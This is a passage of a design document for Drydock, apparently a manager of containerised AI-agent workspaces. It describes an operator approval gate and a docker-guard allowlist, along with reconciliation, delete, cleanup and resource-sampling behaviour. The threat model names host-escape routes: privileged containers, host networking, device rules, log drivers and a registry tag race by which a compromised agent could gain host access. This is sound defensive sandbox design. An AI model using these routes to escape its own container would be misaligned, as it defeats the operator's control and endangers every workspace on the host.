**The hash.** Each value is canonical JSON — decoded and encoded again by `encoding/json`, object keys sorted — with the clone's path written as `${localWorkspaceFolder}`, so the same configuration hashes the same in every workspace of the repository and after a re-clone. The entries are sorted by field and source, and the hash is `sha256:` and the hex SHA-256 of their JSON array: every byte of every entry, field name and source included, and nothing else.

**The decision is containment, not equality.** The run proceeds when every entry of the subset is **within** the repository's current approved set — the same field and source, and the same canonical value or, for `capAdd`, `securityOpt` and `mounts`, a list each of whose elements is in the approved list. Less host access than was approved never needs sign-off; the empty subset is the trivial case. `runArgs` is the exception among lists: its elements are argv, whose meaning is in the sequence (`-v` `/a:/b` is one option, `--mount` `/a:/b` another), so a shorter or reordered `runArgs` could recombine approved words into something never approved, and it must equal the approved value. Running less **does not narrow the approval**: it stays as approved, so a setting dropped and later put back runs without a prompt. The hash is not the test here; it is what an approval request is checked against (below). The step's detail names what it runs with (*"It runs with host access the operator approved for this repository: privileged, runArgs."*). Anything outside it stops **before any `up`**: step 3 ends `needs_approval` — not `failed`, which would burn a failure and read as a crash — the workspace moves `building` → `stopped`, and the row carries the request in `workspace.pending_approval`: the subset, its hash, the stopped run's `--remove-existing-container`, and the difference from the subset last approved for the repository — `added`, `changed` (with both values) and `removed`, never the whole configuration. The one `workspace.state` event of that move carries the same request as `data.approval`, and `GET /api/workspaces` as `approval`, so a reloaded page says what the live one did. Any later move clears it. The workspace's socket is closed, as for any stopped workspace, and its containers were already stopped (below). The sentence names what is new or changed: *"This configuration asks for host access that has not been approved for this repository: privileged, runArgs. Approve it to continue, or remove it from devcontainer.json."*

**Approval.** `POST /api/workspaces/:id/config-approval {"hash": …}` approves the request the workspace is waiting on if `hash` is that request's — the one the operator was shown — and is `409 approval_stale` otherwise, so a configuration that changed between the display and the click is never approved unseen; `409 approval_not_pending` when the workspace is not waiting. It is checked against the cap like a start. In one transaction it supersedes the repository's current `config_approval` row (kept, never deleted) and inserts the new one — repository, hash, the subset, the workspace, the approving session's id (itself a SHA-256, §4) and when — and writes `config.approved`. Then the stopped run continues, from step 3 with its own `--remove-existing-container`: step 3 reads the configuration again and runs only if its subset still hashes to what was approved, so a Feature tag that moved in between asks again. `DELETE` on the same path declines: the request is dropped, the workspace stays `stopped` with a sentence saying so, nothing is recorded, and the next start asks again. Approvals are **per repository**: a new workspace of the same repository with the same subset needs none. A subset within the approved set runs; one with an entry outside it — a new setting, a changed value, a list that gained an element — asks again, showing the difference from the approved set, where *removed* is informational. Approving it records the new subset as the repository's approval, superseding the old. A repository the installation drops has its approval superseded, as its secret grants are deleted.

**What approval means — honestly.** An approved `privileged` container, which docker-in-docker needs, is root on the host: anything that runs in it — a compromised agent included — can escape **without touching the configuration**, read the App key and the master key, and reach every other workspace. So does an approved `initializeCommand` (it runs on the host as `drydock`), a bind mount of anything sensitive, or `--network host` reaching services on the host's loopback. Approving is a per-repository trust decision that gives up §13.4's one-container blast radius **for that repository**, and the UI says so beside the button. What the gate guarantees is narrower and exact: **a container that was not given host access cannot promote itself by rewriting its configuration** — the edit stops at step 3 until the operator reads it, and runs only within what was approved.

**The workspace's containers are stopped before the read.** A rebuild, and a start from `failed`, otherwise ran with the old container still up, free to rewrite the file between the check and `up` — a race an agent can win by rewriting it in a loop. Both pass `--remove-existing-container`, so the stop loses nothing; a start from `stopped` finds its container stopped already. With no container running, nothing writes the clone between the check and `up`.

**What the check alone did not close: the tag race.** The merged configuration is computed from registries at the check and again at `up`, so a Feature or an image referenced by a tag its author controls could serve harmless metadata to the first fetch and `privileged` to the second. A committed lockfile pins Features by digest, and an image named by digest is fixed, but neither is required. The docker guard, below, closes it for both: what `up` is held to is what it actually asks Docker for.

Three alternatives lost. **Refusing the subset outright** cannot run docker-in-docker at all. **Snapshotting the configuration at clone time**, outside the clone, and running every later `up` from it with `--override-config`: a Dockerfile, a build context and a local Feature are still read from the clone, so the snapshot would have to be every file the config can name; the lockfile is read and written at the repository's path whatever the override says (*The repository's lockfile*); and a legitimate edit to the config would need an operator action anyway — which is what the approval is, for the edits that matter. **A denylist** — `initializeCommand`, `privileged` and the rest — is the same gate with its failure mode reversed: a field a later CLI adds would pass until someone noticed.

#### The docker guard

Step 3 decides from `read-configuration`'s answer; `up` asks Docker. **Measured on CLI 0.89.0** with a registry the test controls: `read-configuration --include-merged-configuration` reads an image's metadata from the registry without pulling it, the tag then moved to an image whose metadata says `privileged`, and `up` pulled the moved tag and ran `docker run … --privileged` — the check saw nothing to approve. The same holds for a Feature's metadata. So the guard checks what `up` actually runs.

Every devcontainer invocation — `up`, `read-configuration`, `exec` and the session server's `exec` — is given `--docker-path` (and `--docker-compose-path`) naming `/srv/drydock/ws/<id>/.drydock/guard/docker`: a link to the drydock binary, which, run under the name `docker`, is the guard (`internal/dockerguard`). Beside it, `real-docker` links to the docker Drydock itself runs. Both are made again before every invocation, in a `0700` directory beside the clone that no container sees. Before each `up` Drydock writes `policy.json` there and removes it after: the clone (whose bind mount is Drydock's own), the CLI's per-workspace TMPDIR (where it writes the Dockerfiles and the Feature build context it builds from), the configuration's directory, the label prefix and the four id-labels, Drydock's two `--mount` values (the broker directory and the credential volume), and **the repository's current approval** — read on every run, whether or not this configuration asks for anything. The guard is a separate process: it learns its policy from that file, found from the path it was run as, not from the environment, which the CLI hands to every process it starts, and not from an argument, which `--docker-path` cannot carry.

For each docker command the guard decides, then either refuses it — one line to stderr beginning `drydock-docker-guard: refused`, the refusal recorded in `refused.json` beside it, exit status 77, and docker never run — or replaces itself with the real docker by `execve`, so argv, stdin, stdout, stderr, signals and the exit status are docker's own, exactly. After `up`, Drydock reads `refused.json` (never the CLI's prose) and fails step 6 with *"devcontainer up asked Docker for host access the operator has not approved for this repository: privileged. Drydock refused it, and no container was created. A Feature or image tag may have changed since the configuration was checked; starting again checks it again."* — a different sentence from an `up` that failed, because nothing ran. Starting again runs step 3 again, which now reads the moved metadata and asks for it in the usual way.

What it checks, all of it measured as CLI 0.89.0 writes it (`test/fixtures/devcontainer/docker-argv-*.jsonl`, recorded by `record.sh dockerargv` for a plain image, a Dockerfile, a local Feature, docker-in-docker, Drydock's own Feature, every host-affecting field, Compose, a start, a rebuild and an exec):

| docker command | Rule |
|---|---|
| `run`, `create` (and `container run`/`create`) | Option by option, below. An approved `runArgs` is removed first as the contiguous run of arguments it was approved as — the CLI writes it verbatim — so the same words in another order are not it. Any option left that the table does not name is refused as `runArgs`: whether it takes a value is exactly what is not known. |
| `build`, `buildx build` (and `image build`, `builder build`) | An approved `build.options` is removed the same way. `-f` and the context must resolve, symlinks followed, inside the clone or the CLI's TMPDIR, or be the approved `build.dockerfile`/`build.context`. A context written below the TMPDIR that does not exist yet is made by the guard and then held to the same rule, but only when it is written clean (no `.`, `..` or `//`: docker follows a link before a later `..`, so a cleaned reading is not docker's) and its nearest existing ancestor resolves inside the TMPDIR — the only directory the guard ever makes, and the only effect it has on the host besides running docker: CLI 0.89.0 starts the Features build without awaiting its own `mkdir` of `<TMPDIR>/devcontainercli-<user>/empty-folder` (the mkdir runs on a libuv worker, the spawn on the main thread — measured with `strace` 2 ms apart), and every `up`'s TMPDIR is new, so a guard that ran first refused the CLI's own context as outside the clone, intermittently; `--build-context` only as the CLI's own `dev_containers_feature_content_source`, inside its TMPDIR; `--cache-from` only a registry cache, read as buildx reads it (`dockerguard.CacheFromIsRegistry`: a value with no `=` is a reference; otherwise one CSV record, keys lowercased, the last `type` winning, a quote or line break refused), or an approved `build.cacheFrom` element — a substring test let `TYPE=local,src=/x` and `type=registry,ref=x,type=local,src=/x` through, both local imports to buildx (review of #78); `--build-arg` only with a value. Anything else — `--secret`, `--ssh`, `--network`, `--allow`, `-o` — is `build.options`. Without `--allow`, BuildKit refuses a Dockerfile's `RUN --network=host` itself (measured: *network.host is not allowed*). |
| `compose` | Passed only when a Compose setup is approved (`dockerComposeFile`): Drydock reads no Compose file, so its approval is of the setup as a whole. Without one, only `version`, `config`, `ps`, `ls`, `images`, `top` and `port`. |
| `exec` | Passed, but for `--privileged` (every capability to the exec'd process), which needs `privileged` approved, and `--env-file` or `-e NAME` without a value, which copy Drydock's own files or environment in. |
| `start` (and `container start`) | What `up` runs for a stopped workspace instead of `run` — and the container keeps whatever it was created with: under an approval since narrowed, or through the tag race before this guard. So the guard reads each container with `docker inspect` and holds **every** field of its HostConfig to the policy, by a table of Docker 29's HostConfig fields (`hostConfigFields`); a field not in the table that is set — one a later Docker adds — is refused, so this is an allowlist, not a list of what is known to be dangerous. The fields that grant something are read as `run`'s options are: `Privileged`; each `CapAdd` and `SecurityOpt` element (the `label=disable` docker adds to a privileged container goes with `privileged`); `MaskedPaths` and `ReadonlyPaths` must still hold every path Docker masks by default unless the container is privileged or `systempaths=unconfined` is approved — `--security-opt systempaths=unconfined` empties both and leaves no trace in `SecurityOpt` (measured); each mount, on type, source, target, read-only and bind propagation (a volume with driver options, a subpath, or any other bind option is neither the container's alone nor approvable); `DeviceRequests` (`hostRequirements.gpu`); and a label under the prefix. Host or another container's namespaces, a runtime but runc, a restart policy, and the fields only `runArgs` can set — `Binds`, `Devices`, `DeviceCgroupRules` (with the default `CAP_MKNOD`, `b *:* rwm` lets container root read the host's disks), `CgroupParent`, `Sysctls`, `VolumesFrom`, `Links`, a volume driver, real-time scheduling, the OOM killer's settings, annotations — need `runArgs` approved at all, and published ports `appPort` or `runArgs`: HostConfig does not say which approved words made them, so this half is coarser than `run`'s. So does a log configuration (`LogConfig`), unless it is one no configuration chose: the daemon runs the driver on the host, and gelf sent a container's output to a listener on the daemon host's loopback from the default bridge (measured), syslog and fluentd reach host unix sockets, splunk posts from the host, and awslogs and gcplogs use the daemon's credentials — on `run`, `--log-driver` and `--log-opt` are options only `runArgs` carries. What passes without `runArgs` is a file driver (`json-file`, `local`) with no options, or **exactly the daemon's own default**: Docker writes the default driver and its `log-opts` into every container it creates with no log option (measured on Docker 29 under `json-file` with `max-size`/`max-file`, `journald` with a `tag`, and `local` with `max-size`), so a host whose `daemon.json` sets any of them had every start of a stopped workspace refused while every create passed. `docker info` names the default driver but not its options, and `daemon.json` is not the only place they are set (dockerd's own flags are another), so the guard asks the daemon: it creates a container from the policy's digest-pinned probe image (`config.CleanupImage`) with no log option and `--network none`, labelled `<prefix>.log-probe=<workspace id>`, never starts it, reads its `LogConfig`, and removes it — only when a start's container carries a log configuration the file-driver rule does not pass. `create` may pull that image, deliberately: it is pinned, the pull is bounded by the probe's timeout, and a host that cannot pull refuses the start as before. The removal runs under a timeout of its own, so a probe whose `inspect` ran out of time is still removed; a `create` that was cut off is given a few seconds for the daemon to finish it and then removed by label; a probe that cannot be removed is said on the guard's stderr; and boot's helper sweep removes, by the bare label, any probe a killed guard left. The comparison is exact: the same driver and the same options. Nothing a container does can change its own `LogConfig` between its create and a start: it has no Docker socket, `docker update` cannot set one (and the guard refuses `update`), and a recreate is a `run` checked by the rules below. A container created under an earlier daemon default no longer matches after the operator changes it, and that start is refused like any other; the next start recreates it. Limits and DNS are the container's own. It fails closed on an answer it did not expect: not exactly one result per id given, an id that is not the full 64-hex id passed, a missing or null `HostConfig`, a field of the wrong type. A refused start leaves the workspace `failed`, and the next start from `failed` recreates the container (`--remove-existing-container`), which `run`'s check then holds exactly. |
| `version`, `info`, `ps`, `inspect`, `events`, `stop`, `rm`, `kill`, `wait`, `logs`, `pull`, `top`, `port`, `images`, `buildx version`/`ls`, and the read-only `container`/`image` forms | Passed unchecked. |
| Anything else, or a global option before the command (`-H`, `--context`, `--config`) | Refused: a docker command the guard does not know. |

| `docker run` option | Allowed when |
|---|---|
| `--sig-proxy`, `-a`, `-d`, `-i`, `-t`, `--rm`, `--init`, `-u`, `-w`, `--entrypoint` | Always: the CLI's plumbing, or the container's own. |
| `-e` | It carries `NAME=value`. `-e NAME` copies Drydock's environment into the container. |
| `-l` | Its key is not under the label prefix, or it is exactly one of Drydock's id-labels: reconciliation adopts and deletes by label. Any other label passes — see *What it does not close*. |
| `--mount` | Drydock's own (the broker directory, the credential volume, or a bind of the clone itself and nothing else); this container's alone — a volume whose name carries the workspace's `${devcontainerId}` (computed as the CLI computes it, from the id-labels) and no other 52-digit id, an anonymous volume, a tmpfs — which is step 3's rule; or an approved `mounts` element or `workspaceMount`, after `${localWorkspaceFolder}` and `${devcontainerId}` are put back, compared field by field with docker's aliases folded and the type lowercased as docker reads it. An approved bind whose source is in the clone must still resolve, links followed, inside the clone: the container could have made it a link to `/` since it was approved, and docker follows a link in a bind source (measured). The containers are stopped before step 3 and stay stopped through `up`, so nothing in a container moves the link between that check and docker's mount; what remains is Drydock's own and the CLI's writes. Otherwise `mounts`. |
| `--privileged` | `privileged` is approved. |
| `--cap-add` | `SYS_PTRACE`, or an approved `capAdd` element (`CAP_` prefix and case folded). |
| `--security-opt` | `seccomp=unconfined`, or an approved `securityOpt` element. |
| `-p` | It is how the CLI writes an approved `appPort`: a number `n` as `127.0.0.1:n:n`, a string as written. |
| `--gpus` | `hostRequirements.gpu` is approved. |

**Fail closed.** With no policy — none written, one that does not parse, one of another version, one that is not a regular file — every command that creates a container or builds an image is refused, and the step says the guard had no record of what the run may ask for. Run by a relative path, the guard can find neither its policy nor docker, and runs nothing. `up` refuses to start without a guard, or with any TMPDIR but the workspace's own, `<id>/.drydock/tmp`. The policy is removed when the `up` ends, and boot removes one a killed Drydock left, for every workspace with no job in flight.

**What it does not close.** The guard is source-blind: docker's argv does not say whether `--privileged` came from the repository or a Feature, so an approval of either covers it, where step 3 would ask again for the other source. The approval itself means what it meant: an approved `privileged`, Compose setup or bind mount is host access by the operator's choice, and the guard only holds `up` to it. What runs *inside* a build or a container — a Dockerfile's `RUN`, a Feature's `install.sh`, the image's own code — is unchanged by the guard; it reaches the host only through the options above. And the CLI's own host-side work is not docker's: `initializeCommand` is the repository's own configuration, checked at step 3 and not something a Feature or image can declare, and the file it reads cannot change between the check and `up`, since the containers are stopped. **Labels**: a label off the prefix passes, because labels are metadata to Docker, and which labels a host service acts on is that service's business — a label-driven proxy or backup tool on the same daemon (Traefik, watchtower) would act on a container's `traefik.*` labels, which a repository can set through `runArgs` (approved) or an image's own labels (never in argv at all). Refusing a list of known prefixes would be a denylist that reads as a guarantee it is not; a host running such a service trusts every container on the daemon already, and should not run Drydock's workspaces there. **What a start cannot see**: a named volume is the daemon's, not the container's — one created under an earlier, wider approval with driver options (the local driver's `o=bind,device=…`) is reused by a later plain `type=volume,source=…-${devcontainerId}` mount that passes both step 3 and the guard, after the approval narrowed; and an approved `seccomp=<profile file>` is stored by docker as the profile's JSON, which is not what was approved, so every start of that container is refused and the workspace recreates it — a fail-closed limit on availability, not a hole. **The CLI's own extraction**: the CLI unpacks Feature tarballs into the workspace's `.drydock/tmp`, beside `.drydock/guard`, so a path-traversal bug in its tar extraction would reach the policy — that rests on node-tar's own protections (a symbolic link in a local Feature was measured to stay a link in the build, not be followed).

> [!NOTE]
> **No secrets at `up` — deliberately**
>
> An earlier form of this invocation passed `--secrets-file`; it is gone, and its absence is the point. Repository secrets are delivered at session `exec` time over the broker socket (§10.3), never baked into the container at creation — so `up` handles none, and there is no plaintext secrets file on the host to write, guard, and delete. The feature's `postCreate` needs no repository secret to do its job (§11). This keeps the single delivery story §10.3 argues for and removes the at-rest file §10.2 would otherwise have to worry about. (`--secrets-file` remains available for a genuinely build-time value should one ever appear; it just does not carry §10 repository secrets.)

### Reconciliation on boot

Drydock restarting must not orphan containers or double-start sessions. On startup it lists containers by its configured workspace label and reconciles in one direction — **Docker is the truth, the database is the cache**:

| DB says | Docker says | Action |
|---|---|---|
| `running` | Running | Adopt. Restart the supervisor; the previous session is resumable with `claude remote-control --continue` in the same directory. |
| `running` | Exited | Mark `stopped`, emit an event. Do not auto-start — the exit may have been a crash loop. |
| `running` | Absent | Mark `stopped`, clear `container_id`. Clone is intact; `start` rebuilds. |
| Absent | Running | Orphan from a lost DB. Log it, adopt the row from labels rather than killing someone's work. |
| `deleting` | Any | Resume the delete. This is why `deleting` is a persisted state and not a flag in memory. |
| `pending`, `cloning`, `building` | Any | Interrupted mid-provision. Mark `failed`, saying Drydock restarted during that state, and record any container found. Never resumed: the restart may have been the build's fault. |
| `stopped`, `failed` | Any | Already right. Only the cached `container_id` is synced. |
| Absent | Exited | An orphan, adopted as `stopped` — recorded, not started. |

Three rules sit under the table. **The labels carry the row**: `up` sets the repository id and branch as id-labels beside the workspace id, because adopting an orphan means rebuilding its row, and a repository row that is missing is written as a stub for the next catalog refresh — it is a cache (§4). An orphan whose labels are too incomplete to rebuild from is logged and left alone, and so is a second container for one workspace. **A failed listing changes nothing**: if `docker` cannot be listed, every `running` row would look absent and be marked stopped, so reconciliation refuses to act on a list it could not read. And **nothing on this path removes a container** — not one adopted, not one left alone — except the `deleting` row's, whose delete the operator confirmed before the restart: it is finished by the very code `DELETE` runs (below), and that code finds containers by this instance's label and this workspace's id alone. Reconciliation runs beside serving rather than before it, so a slow daemon never keeps the sign-in page down. **So each workspace is decided and acted on under the lock every job starts under** (`provision.Unowned`): one this process has started a job for is skipped, and a stop, start or delete asked meanwhile waits for the act and then sees its result, rather than starting between the check and the act and being undone by a plan made before it. A resumed delete is the provisioner's own job and takes the lock itself. Broker sockets are reopened after it, for `running` workspaces only, so the set is the one Docker confirmed; that and the session servers' resumption each read the row again under the same lock, so a workspace a stop finished since the list was read is left alone.

**A step the last process died inside is closed first.** Every step that returns writes `done` or `failed`, and a cancelled one — the timeout, a graceful shutdown, a delete — is failed by the run's own guard, saying which. A kill, an OOM or an unrecovered panic writes nothing, and the step's newest event stays `started` with nothing left to end it: most visibly step 8, which runs while the row is already `running`, so the adopted workspace's timeline showed the session server step running forever. Steps run one at a time, so only the workspace's newest `workspace.step` event overall, by event id, can be a step its process died inside. So before the plan, for every row, `deleting` ones included (a resumed delete that sticks leaves the row and its timeline on screen), that event, if it is `started`, has its step failed with *"Drydock stopped while this step was running."* — in one `events.Log.Commit`, published live like any step event, and under the same lock as the plan's act, so a workspace this process has a job for is never touched. A `started` that a later run's events follow is never closed, whatever step they are for: its run is over, and a close appended now would become the newest step event, so the timeline would drop the later run's steps behind it and a failed card would blame the wrong step. The row's state is still the table's: a `running` row whose step 8 dangled stays `running` (a step-8 failure never fails a workspace), and the session server is restarted by boot's resumption as for any adopted workspace — after reconciliation, so its events are newer than the close; a row mid-provision is marked `failed` as the table says, its step failed just before the move, in the order a live failure writes them.

#### Stop, rebuild, delete — as built, Phase 6

Each is a background job under the same one-per-workspace ownership as a provisioning run: a second action on a busy workspace is `409 in_progress`, and only a delete may replace a job in flight. A stop's and a delete's sub-steps each write a `workspace.action` event — `{action, step, status, detail?}`, `status` one of `started`, `done`, `failed` — so a stop or a delete that sticks names where it stuck; a rebuild is a provisioning run, and writes `workspace.step` as one. As for the provisioning steps, a detail is Drydock's sentence, never a subprocess's stderr. Every job — a provisioning run, a stop, a delete, a session server restart — ends with one `workspace.job` event (§5), written by the wrapper that runs it rather than by each path through it, so a path that forgets to say anything still ends the press: in the same commit as the job's last move, annotation or removal when that is its last act, otherwise in its own after the job returns and before it releases the workspace. A job cut off by shutdown or by a delete ends `cancelled` — one a delete cut off after the delete's move to `deleting` and before its first sub-step — and one that panics ends `failed`.

- **Stop** is `session_server` (the supervisor stopped with `SIGTERM`, escalating only on timeout, *before* its container — a server killed with its container blocks the next start for minutes, Spike 02; §8 *As built* for how the signal reaches it), `container` (`docker stop` of every container carrying the workspace's label — found by label, never by the cached id), and `broker_socket`, then `running` → `stopped`. A failed sub-step leaves the workspace `running` and stops there, **annotated**: `state_detail` is *"The stop did not finish: \<the sub-step's sentence\> Stop again to retry."*, written as a `workspace.state` event with the same state, as a stuck delete's is. It lives on the row rather than only in the `workspace.action` events because the row is what every reader has — the list a reloaded home page reads, `curl` — and the events only a detail body carries; before this, a reloaded list said *Running* where the live page said *Stop failed*. Any later move replaces it (a stop that works, a rebuild, a delete), and a stop asked for again clears it (`ClearDetail`, a `workspace.state` event with no detail) before its first sub-step, so nothing reading the list says the stop failed while it is running again. The view's `last_action` is what tells this annotation from an adopted orphan's note, which is the only other detail a running row carries. A stop a delete cut off is not annotated: the workspace is `deleting`.
- **A stop during a build is refused, not a cancel.** `stopped` promises a container that came up and passed its probe and a complete clone, so that start resumes from step 3 and reattaches; a cancelled build is none of those, and is `failed` — which is what the provisioning timeout already makes of a build that never ends. The way out of a build the operator has given up on is delete, which does cancel it.
- **A stopped workspace has no broker socket.** It has no container to mount one into, and access follows Drydock's state rather than Docker's: a container someone `docker start`s by hand gets no GitHub access until Drydock starts the workspace, whose step 5 opens the socket again. Boot does the same — sockets for `running` workspaces only, after reconciliation. A stop removes the socket and keeps its directory, which the stopped container's mount still names.
- **A container an earlier Drydock made needs one rebuild.** Before the directory mount (step 5), the socket file itself was mounted, and that mount is fixed for the container's life. Such a container has had no broker since the restart that brought the directory mount in, and a plain start of it would fail at Docker (the file it names is gone). So a start checks first — `docker inspect`'s `Mounts`, for a bind at `/run/drydock/broker.sock` — and fails at `up` with *"This workspace's container was created by an earlier Drydock, whose GitHub access mount does not survive a restart … Rebuild it once; the clone is kept."*, and boot does not start the session server of a running one (§8 *As built*). A rebuild replaces the container, so it needs no check.
- **Neither has a failed one.** A run that ends `failed` closes its socket, at whichever step it failed. A failed `postCreateCommand` leaves its container running (above), so the socket could still be used — but Drydock has not handed that container over as working, and boot would not reopen the socket of a `failed` workspace anyway; closing it when the run fails makes a live failure and a rebooted one the same. Start and rebuild from `failed` run step 5 again, which reopens it. A run a delete cut off is left to the delete's own `broker_socket` sub-step.
- **Rebuild** is start's run with `--remove-existing-container`, from step 3 (step 2 for a failed clone), so the clone survives and the container is new. Before a running workspace's rebuild, the supervisor is stopped first, for the same reason as stop, and step 8 starts it again.
- **Delete** moves to `deleting` *first* — persisted before anything is removed, which is what makes it resumable — then cancels any job in flight with a cause its step names (*"the workspace is being deleted"*) and waits for it to end, so a run cannot open a socket or bring up a container after the delete has looked. Then `session_server` (the seam), `containers` (`docker rm --force --volumes` of every container carrying the label — a failed `up`'s leftover and a rebuild's straggler included — and a re-list that must come back empty; anonymous volumes go, named ones like the credential volume never do; then the images `up` built for this workspace — `vsc-repo-<sha256 of the workspace folder>` with `-features`, `-uid` and `-features-uid`, the names CLI 0.89.0 derives from `--workspace-folder` (measured), listed by exact reference and removed with `docker image rm`, never forced and never a prune, so an image another container was made from stays and one tagged twice is only untagged; an image that will not go is a note, not a stuck delete, since it costs disk and not correctness), `broker_socket` (the socket and the workspace's directory that held it, a stale socket file from an earlier process included; anything root in the container left there that Drydock cannot remove stays until the next reboot — the directory is on a tmpfs — and the sub-step's note says so rather than sticking the delete), `files` (the whole of `/srv/drydock/ws/<id>/`: the clone, `.drydock/`, and the per-`up` `TMPDIR` under it — the cancelled run is waited for first, so its `up` is not still writing there), and then the row, which writes `workspace.gone`. A sub-step that fails leaves the workspace `deleting` with a detail naming it, and nothing after it runs — a container still holding the clone's mount does not lose the clone under it. Asking again, or the next boot, resumes it; every sub-step is idempotent, so a delete interrupted after any one of them finishes. **A resume clears the stuck detail as it starts** — under the provisioner's lock, before the first sub-step's event — so a page that reads only the list stops offering *Delete again* for a delete already running; if the resume sticks too, it writes a new one.
- **The directory step removes `<WorkspaceRoot>/<id>` and nothing it cannot prove is that.** The id must be a ULID; the root absolute, clean and not `/`; the row's `host_path` exactly `<root>/<id>/repo` (a root reconfigured since the workspace was made means its clone is elsewhere); and `<root>/<id>` a real directory, not a symlink. Inside it, `os.RemoveAll` unlinks a symlink rather than following it, so a link in the clone pointing out of the tree loses the link and keeps its target. A directory already gone is success.
- **What the host cannot remove goes through a cleanup container.** A process running as root inside the container — `sudo`, a build tool, a `postCreateCommand` — leaves root-owned files in the bind-mounted clone, and the `drydock` user cannot unlink them; before this, such a workspace stuck in `deleting` at `files` for good. Drydock is in the `docker` group, which is root by another name (§13.4), so the remedy costs no privilege it does not already hold: after the host removal has done what it can, and after `<root>/<id>` is proved again by the same checks (the helper runs as root, so the directory it is handed is checked immediately before, not only at the top), a `docker run --rm` empties it with `find /w -mindepth 1 -delete` and the host removes the now-empty directory, which is Drydock's own. The helper sees `<root>/<id>` alone, bind-mounted at `/w` — never a parent, so nothing beside the workspace is in reach — with `--network none`, a read-only root filesystem, `no-new-privileges`, and every capability dropped but `DAC_OVERRIDE` and `FOWNER`, which are what let root remove another user's entries. Inside the helper a symlink resolves in the helper's own filesystem and `find` never follows one. The image is configuration (`--cleanup-image`), and refused unless pinned by digest — busybox `1.37.0` by its index digest by default — for §11's reason: it runs as root with a host directory mounted, and a tag can be moved to different content. The helper carries `<prefix>.cleanup=<id>`, deliberately not `<prefix>.workspace`, so reconciliation's listing never sees one and can neither adopt it nor rebuild a row from it; a stray one — Drydock killed while it ran, and the daemon never reaching `--rm` — is removed by that label before the next attempt runs one, and the next attempt is what a resumed delete is. The `files` sub-step's detail says when the helper was used, and its failure says which of three things happened: the helper ran and failed (*"…even with a helper container for the files it does not own."*), the image is not pinned by digest so it cannot run (naming `--cleanup-image`), or Drydock could not start it (docker could not list or clear a stray first). Only the first may claim a helper was tried. **Boot sweeps leftover helpers**: after reconciliation — whose resumed deletes have finished by then — every container carrying this instance's `<prefix>.cleanup` label is removed, because one whose delete then succeeded on the host, or whose row is gone, would otherwise never be. The sweep lists by the cleanup label alone and drops anything that also carries `<prefix>.workspace` (no delete makes such a container, and a workspace's container is reconciliation's), skips a helper whose workspace has a job in flight in this process (a delete started since boot may be running it), and holds the provisioner's lock throughout so no job starts between that check and the removal. It writes one `container.helpers_swept` system event with the count.

#### Resources — as built, Phase 6

The card carries each workspace's memory and disk (§1: capacity is managed by hand, and the operator needs to see what to stop and what to delete). `internal/usage`'s sampler measures them; nothing about how is left to the client.

- **Memory** is the running container's, as `docker stats` counts it — the cgroup's usage with the page cache taken out, the number an operator would see by hand. One `docker stats --no-stream --no-trunc --format '{{json .}}' -- <ids…>` names every running container of every `running` workspace at once, so a round costs the daemon one stats request however many workspaces there are; its `MemUsage` is Docker's own formatted string (*"1.21GiB / 15.5GiB"*), parsed strictly — a figure and one of Docker's binary units, anything else an error. A stopped container answers *"0B / 0B"*, which is no reading, and is never reported as zero. Containers are found as everywhere else: `docker ps` by label, ids checked as full 64-hex ids, after `--`. A container removed between the listing and the reading — a delete or a rebuild landing mid-round — makes Docker 29.8.2 exit 1 and print nothing for the others (`stats`), or exit 1 having printed them (`inspect --size`); the reader asks once more without the ids its *"No such container"* lines name, so one vanished container fails no one else's reading. The reading names the container it measured, and the card shows it only while that is the workspace's container, so a rebuild inside one round — which replaces the container and its id — never shows the old one's figure. (A plain stop and start keeps the container, and its id; its first reading after the start is a fresh one.)
- **Disk** is what deleting the workspace would free: its directory `<WorkspaceRoot>/<id>` — the clone and `.drydock/` — walked through the injected `sys.DiskUsage` (allocated blocks as `du` counts them, each hard link once, no other filesystem entered), plus its container's writable layer, `SizeRw` from `docker inspect --size`: what the container wrote outside the clone (packages installed after create, caches, `/tmp`), which a rebuild or a delete also frees. Images and the shared credential volume are not counted — other workspaces share them. A directory part of which the `drydock` user cannot read (a container's root made it private) is walked as far as it can be and reported `partial`: a lower bound, shown as *"≥ 3.4 GB"*.
- **The walk is bounded, because the container shapes the tree.** A process in the container writes the clone, so the walk is bounded in everything that process controls: time (30 s per workspace, and the sampler's stop cancels it at once), entries (two million), depth (128), the hard-link set (100,000 inodes — past it an unseen hard-linked file is not counted at all, so the figure stays a lower bound rather than counting one twice), and memory (directories are read 1,024 names at a time, one batch per level). Reaching any bound is `partial`, never an error. It never follows a name: each directory is opened relative to its parent's descriptor with `O_NOFOLLOW|O_DIRECTORY`, and its `(dev, ino)` must be the one the parent's `fstatat` saw, so a directory swapped for a symlink between the listing and the descent is refused rather than followed out of the tree (`sys.HostDisk`, tested through a seam that makes the swap).
- **Cadence.** Two loops, so memory never waits on a walk. Memory every 30 seconds, for `running` workspaces only — and with none running, a round asks Docker nothing at all. Memory moves on the scale of a build step or a test run, so half a minute shows which workspace is the heavy one, and `docker stats --no-stream` itself takes about a second (the daemon waits for a second CPU reading), which rules out anything much tighter for a dashboard nobody is required to watch. Disk is due per workspace: 5 minutes after its last attempt, at the next 30-second tick for one never attempted, and once more at the next tick after a failed attempt (then the full interval again, so a daemon that keeps failing is not asked twice a minute); only the due workspaces are walked and only their containers asked for `--size`. Both the walk and `--size` (which makes the daemon walk each layer) are real I/O on a large clone, and disk grows slowly. Stopped workspaces keep their disk figure — they hold disk, and they are what an operator deletes to free some. Each docker call is bounded at 20 seconds. A workspace listing that fails keeps the last figures and is logged once, and again when it recovers.
- **Transport.** A measurement is not state — nothing about a workspace changes when its memory moves — so it is **never an event**: persisted every half-minute per workspace, samples would be most of the log and would push the events that matter out of the 1,000-event replay window. The latest round is kept in memory, served on the workspace views (`resources`, and the list's `disk`, §5), and published as one named `resources` frame per round on `/api/events` with no id (`events.Log.Broadcast`). The browser's reducer is still its one writer. Every copy carries the sampler's round counter and a boot id of the process, and the reducer orders by them — another boot always replaces, the same boot only at the same round or later — never by the wall clock, which can step backwards and would freeze every card; so a list fetched before a frame cannot roll a card back. After a restart nothing is known until the first round, a few seconds in.
- **Honest values.** No reading is `null` and the card shows *"—"*, never 0. A measurement that fails keeps the last good value, marked `stale`, which the card says; a recovered one clears it.
